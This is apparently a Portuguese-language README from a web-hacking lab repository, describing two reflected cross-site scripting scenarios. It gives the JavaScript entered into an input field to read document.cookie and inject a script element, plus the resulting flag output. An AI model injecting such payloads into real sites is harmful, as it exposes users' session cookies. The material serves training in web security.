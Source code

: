 # xss-reflect-web-hacking-42

# XSS Vulnerability: Reflect

## Cenário 1:

Realizado à analise no código é perceptivel que o padrão utilizado se chama "script" toda vez que retorna o resultado. Sabendo que o código já está retornando "script", foi adicionado no inputText:

        function displayText() {
            document.getElementById("output").innerHTML = "<b>" + "Cookie value: " + document.cookie + "</b>";

            var script = document.createElement("script");
            script.textContent = document.cookie;
            document.body.appendChild(script);
        }

Ou seja, a linguagem entende que é um novo script e localmente aplica a função.
Ao clicar no botão "Submit" 2 vezes, ele adere a nova função.

Output gerado:
Cookie value: ftCookies=If_You_See_Me_Its_Win
  

## Cenário 2
Neste cenário o parâmetro (javascript) haverá manipulação do campo do input e reflexão para a variável do Content-type "document.cookie"

Adicionado ao input:
document.getElementById("output").innerHTML = "<b>" + document.cookie + "</b>";

Output gerado:
ftCookies=If_You_See_Me_Its_Win
